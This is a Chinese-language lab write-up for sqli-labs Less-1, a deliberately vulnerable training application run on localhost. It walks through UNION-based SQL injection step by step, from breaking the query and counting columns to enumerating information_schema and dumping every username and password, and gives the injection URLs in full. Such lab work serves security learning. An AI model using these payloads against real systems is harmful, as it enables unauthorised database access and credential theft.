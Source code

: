 ```yaml
---
title: sql-labs Less-1
date: 2017-9-21
tags: [sqli-labs]
categories: SQL
---
```


#### sql 字符
字符串运算符 ```'or```, 

多行注释 ```/*...*/```,   

加号,连接（在URL中等同于空格） ```+```,

单行注释 ```#```,

或 ```--```
<!--more--->
#### 注入
![Alt text](http://image-1252432001.file.myqcloud.com/sqli1.png)

输入id值为```1'```来破坏查询。

```sql
http://localhost/sqli-labs/Less-1/?id=1'
```
得到下列结果

![Alt text](http://image-1252432001.file.myqcloud.com/sqli2.png)

可以猜测后端应该是

```sql
SELECT * from table_name WHERE id='1';
```
or
```sql
SELECT * from table_name WHERE id=('1');
```

or

```sql
SELECT * from table_name WHERE id="1";
```

来猜一下:

```sql
http://localhost/sqli-labs/Less-1/?id=1\
```

利用转义字符来验证猜测

![Alttext](http://image-1252432001.file.myqcloud.com/sqli3.png)

结果中有```''1\'```,那么后端的查询应该是

```sql
SELECT * from table_name WHERE id='1';
```

那么如果输入```1'```完整的查询应该是

```sql
SELECT * from table_name WHERE id='1'';
```

所以这条查询有错误。

那么怎么不让它报错呢？

利用sql字符构建

```sql
http://localhost/sqli-labs/Less-1/?id=1'--+
```

得到下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli4.png)

其实这里的```--+```相当于注释，加号连接（在URL中等同于空格）```+```，

后端语句为

```sql
SELECT * from table_name WHERE id='1'--+';
```

等效于

```sql
SELECT * from table_name WHERE id='1';
```

所以登录成功。


----------


**现在我们既可以破坏查询，又可以修复它的语法错误了，接下来我们要努力在引号和 --+ 之间添加查询来获取数据库中的信息。**

为了使用```union```**（UNION操作符用于合并两个或多个SELECT语句的结果集。但是有一个前提条件，那就是UNION操作符两边的列数必须相同）**,我需要知道表的列数。

使用```order by```，来获取列数。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 1 --+
```

显示正确

![Alttext](http://image-1252432001.file.myqcloud.com/sqli5.png)

当构建

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 4 --+
```

出现了下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli6.png)

可以猜到这个表有3列，然后就可以使用```union```了。


----------

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli7.png)

显示正常

为了将第二个查询的结果显示出来，需要将第一条查询变成空，可以将```id```的值设为负值或者大于14.

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli8.png)


图示显示``` name: 2 ```, ``` password: 3 ```，可以构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli9.png)

显示版本号。

下面开始爆出数据库名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,database(),verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli10.png)

得到数据库名为```security```.

接下来可以利用 information_schema这个数据库，爆出表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli11.png)

利用```group_concat()``` 来查取所有的表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli12.png)

爆出全部表名。

接下来爆出```users```表的列名，也是利用information_schema这个数据库。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli13.png)

那么可以得到users表中的所以登录名和密码

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli14.png)

**这么就把库给脱了！**
